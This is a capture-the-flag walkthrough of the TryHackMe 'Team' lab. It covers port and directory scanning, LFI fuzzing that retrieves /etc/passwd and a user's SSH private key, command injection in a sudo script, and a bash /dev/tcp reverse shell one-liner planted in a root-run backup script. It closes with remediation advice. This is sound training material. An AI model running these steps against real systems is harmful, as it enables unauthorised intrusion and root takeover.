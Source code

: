 TryHackMe  <br>
Team
---

# Reconnaissance/Scanning:
I started off by scanning the network to see which ports were open/services running on the ports. 
```
$ nmap -A -O -sC -sV -p- <machine_IP>
```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/2a351742-235e-4eb5-88f9-c62f4d604044)

Viewing the source code on the Apache splash page:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/2b2b1e9b-72a8-4b26-a6b6-0d198319137c)

 ```
$ echo “<machine_IP> team.thm” >> /etc/hosts
```
Now going to that web page it shows:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/3d92ce38-8172-4de7-9925-81e044e2af97)
 
Scanning for directories with Gobuster:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/21cfd835-6cd1-42e0-adbe-9ee0fb4e3e7a)
 
/robots.txt showed one thing.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/4150b6f2-b273-4392-b248-3e1ce7cd877b)
 
/images had the images on the website, so if I can’t find anything I’ll try some steganography tools on them. <br>
 <br>
The other directories were forbidden to view. <br>
 <br>
Dale didn’t work as a directory so that makes me think it’s a username.  <br>
To test that I’ll try to bruteforce the FTP server first and if that doesn’t work, I’ll try the SSH server after. <br>
While letting hydra run it’s bruteforce attack, I tried to enumerate the forbidden directories. <br>
In /scripts there was a text file.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/7f3bcf47-23dd-440c-9267-22c3b02a2149)
 
The contents of that text file were:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/f6f54583-a726-4b47-b15d-0e540a9be821)
 
I just need to add some more extensions to the directory bruteforce in hopes of finding that old file. <br>
I didn’t have any luck with the wordlists I was using, so I started adding in any kind of extension I’d seen in past CTFs I’ve done and got a hit with script.old <br>
Also, while doing that, after thinking I was going down a rabbit hole, I ran another gobuster scan for virtual hosts this time, thinking that maybe I’ll find something else.
```
$ gobuster vhost -u team.thm -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
 ```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/faac7bb7-7b9d-4642-b4b3-777562acfce7)

Added that to my hosts file and started enumerating that while I opened the script.old file.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/22221d9f-d594-4bd8-8bb4-e540b4e5bbf4)
 
Finally, got some credentials! The wordlist I used in hydra wouldn’t have found that at all.

Here were the gobuster results:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/5603a11d-d581-4fb6-8dfb-00536b155535)

# Vulnerability assessment:
Both directories said the same thing, however, /index.php had a redirect link.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/817e081d-df37-4820-b4a5-d1a9c094c5d9)
 
In the link, if it’s misconfigured, can offer LFI (Local File Inclusion) and I can test that by trying to fuzz the parameter page  <br>
to a vulnerable parameter and look for a file of interest such as /etc/passwd. <br>
Luckily for me, it IS vulnerable!
 
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/77f8a06d-2490-46b1-83b5-f681bb3f453a)

 ![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/c09af595-ac12-40c9-815c-316460507153)

Looks like a few users on that machine can get a shell. I still need to find out dale’s password.. <br>
Jumping back to the FTP server, here’s the files on it.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/c7485f5f-35af-4d6b-934e-1db2d41cf022)
 
This looks promising! <br>

In /workshare:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/8c6649f9-84ca-4671-a6dd-673d4aebb611)
 
In /.ssh, unfortunately no key file here.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/9a3c98bc-c28d-4ea0-8b69-b6f65611d9c6)
 
The contents of New_site.txt just confirmed by finding of the other sub domain.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/0f463c02-0dd5-4dcd-8221-9d692aaeead8)
 
The contents of known_hosts:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/82269b27-3da1-4ecf-afe8-38a69e962d37)
 
Well, since there’s a LFI vulnerability on the machine I’ll try to fuzz for SSH files to find that private key (id_rsa).
```
$ gobuster fuzz -u http://dev.team.thm/script.php?page=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt | grep "ssh"
```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/c157c9f0-be59-42e1-982d-93a0fb31c508)
 
I started to go down the list, checking each one and the second link had Dale’s private key! <br>
It wasn’t in a good format from the LFI so I viewed the source code of the page to get it  <br>
in the right format without extra spaces in the lines.
 
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/b3b3eb8b-d554-48f3-8620-8127b8f50382)

*NOTE: Private keys do not have the pound/hashtag signs, so be sure to remove those.  <br>
Also for private key files they need to be read only permissions (chmod 400 <private_key_file>)* <br>

# Initial foothold:
Finally got a foothold on the system!
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/051c291e-8afa-489b-8374-80e9aef50b3b)
 
First things to check, can I run anything as root/another user? Yes!

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/be9fabe2-5ade-426d-a836-d0d29966d0ee)
 
I’ll also grab the user flag in Dale’s home directory while I’m there.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/8a6934d7-1db7-4c60-973d-bfa6785a4953)
 
Now let’s see what the admin_checks file is all about.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/d7154ddc-2041-4a5c-84ed-c072dbcfa7bf)
 
A file I can execute as another user and potentially exploit the variables in it. Error was the injection point.

# Lateral pivoting:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/eae1c2e4-d0fe-4756-9984-8755081eb1a1)

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/52289935-9dd9-416d-9b0a-41464f5988c3)
 
This user is in a few groups, that’s noteworthy. <br>
As this user, I checked the .bash_history for any clues since it didn’t get deleted. <br>
A few files were accessed that I’ll have to look into.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/369c7a3a-4860-4f4e-bcd1-29a0ca73138c)
 
In /opt the directory admin_stuff is owned by root so I can’t edit or change it.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/013b542b-8daa-477c-b5d0-d0683c83ecf4)
 
This is the content of script.sh:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/eb43a5d6-df67-40f6-a468-6fbdb8dfc754)

# Privilege escalation: 
It’s a good idea to check the permissions on the scripts to see if this user has any writable permissions.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/a1dd0b52-65c6-4002-9402-e6dd49b6ba3f)

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/e97d35b2-c03b-4b90-b06f-db68f6591100)

Cool, this user can edit the main_backup.sh script. I’ll add a reverse shell one liner to that.
```
bash -c 'exec bash -i &>/dev/tcp/<attack_IP>/<port> <&1'
```
Reverse shell as root!

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/f6e1087c-ff12-4044-b7e8-cf8c99147779)
 
Time to grab that root flag!

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/afde30f4-e6da-4a24-86ad-bae23df3711c)
 
# Reporting:
* Remove old files that aren't in use anymore from the machine and/or don't make them accessible to the public. <br>
* Enforce input validation to prevent vulnerabilities such as LFI. <br>
* Maintain proper user/group permissions to prevent users from having read/write ability to certain files/folders if an attacker compromises said user(s). <br>
* Make sure hidden files such as .bash_history are cleared by sending the output to null with "2>/dev/null"






